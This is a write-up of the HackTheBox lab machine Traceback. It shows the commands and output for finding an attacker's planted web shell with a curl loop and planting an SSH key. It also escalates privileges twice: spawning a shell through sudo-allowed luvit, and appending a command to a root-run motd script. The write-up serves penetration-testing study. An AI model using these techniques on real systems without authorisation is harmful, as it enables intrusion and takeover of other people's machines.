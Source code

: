 ```yaml
---
title: "HTB Traceback Write-up"
date: 2020-05-02T00:00:00-00:00
summary: A write-up for Traceback on hackthebox.eu
---
```


This is a quick write-up for the HTB machine [Traceback](https://www.hackthebox.eu/home/machines/profile/233).

## Enumeration

A quick port scan revealed a couple services.

```text
nmap -Pn 10.10.10.181

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I visited the web server, which had a "hacked" message. I tried enumerating directories, webpages, and HTTP methods, but nothing was of interest other than the message

```html
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
```

I was lost for a bit, but focusing on the message I decided to look for common web shells that might already exist on the server. Once I finally searched for `Xh4H` and `web shell` together, I found the intended twitter message linking to a list of web shells.

![.](/img/htb-traceback/tb-twitter.png)

I cloned the web shell repo and used a curl loop to see if any of the default filenames were found on the server.

```bash
git clone https://github.com/TheBinitGhimire/Web-Shells.git
for file in `ls Web-Shells`; do echo $file && vvvvvvvvvvvvvvcurl -I http://10.10.10.181/$file; done

punk-nopass.php
HTTP/1.1 404 Not Found

r57.php
HTTP/1.1 404 Not Found

smevk.php
HTTP/1.1 200 OK
```

I quickly found that one of the scripts is on the server. After visiting the web shell `10.10.10.181/smevk.php`, there is a login page and it uses the credentials hardcoded in the script.

![.](/img/htb-traceback/tb-login.png)

The web shell provides a lot of immediate info about our user-level permissions, including our username webadmin, and allows us to run a variety of post-exploitation enumeration scripts.

![.](/img/htb-traceback/tb-webshell1.png)

## Privilege Escalation

I prefer to work from a standard SSH session rather than a web shell, so I add my public SSH key to the current user's ~/.ssh/authorized_keys and then SSH to the host.

![.](/img/htb-traceback/tb-webshell2.png)

```bash
ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat May  2 19:11:34 2020 from 10.10.14.34
webadmin@traceback:~$ 
```

The first thing I notice is the connection error in the motd when connecting. I checked for the user flag in webadmin's home directory, but didn't find it. Instead there is a `note.txt` with a pointed message about lua - which implies privesc is needed.

```text
webadmin@traceback:~$ cat ~/note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

I started doing some standard user privesc checks and `sudo -l` finally led me to the next step. If you use any sort of enumeration or post post-exploitation scripts, this should get caught.

```text
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

This means that our current user `webadmin` can run the `luvit` program as `sysadmin`. Luvit happens to be a lua REPL interpreter, which lines up with the `note.txt` from earlier. Running levit as sysadmin via sudo, we can spawn a shell with sysadmin's permissions. The user flag is in sysadmin's home directory.

```text
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:~$ cat ~/user.txt
# HTB{user_flag}
```

Moving onto the root flag, I started privesc enumeration. When viewing the running processes, I noticed an odd job interacting with motd then I recalled the altered motd from earlier.

```text
root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

In hindsight, I got a little lucky with noticing the running process because it would disappear and reappear. This turned out to be a cronjob, which I believe could have been caught with further enumeration.

Checking out both directories involved in the process, I found writeable files in `/etc/update-motd.d/`. These files are altering the motd banner when connecting via SSH.

```text
sysadmin@traceback:~$ ls -lha /etc/update-motd.d/
total 32K
drwxr-xr-x  2 root sysadmin 4.0K Aug 27  2019 .
drwxr-xr-x 80 root root     4.0K Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 May  3 12:22 00-header
-rwxrwxr-x  1 root sysadmin  982 May  3 12:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4.2K May  3 12:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 May  3 12:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 May  3 12:22 91-release-upgrade

sysadmin@traceback:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

Because this file is writeable, we can add some code that will be executed by root when we first connect over SSH. I simply added a command to display the root flag in the SSH motd banner. Then I reconnected to see the flag.

```text
sysadmin@traceback:~$ echo "cat /root/root.txt" >> /etc/update-motd.d/00-header 
sysadmin@traceback:~$ exit
webadmin@traceback:~$ exit
logout
Connection to 10.10.10.181 closed.
root@kali:~# ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

HTB{root_flag}


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun May  3 12:19:35 2020 from 10.10.14.34
```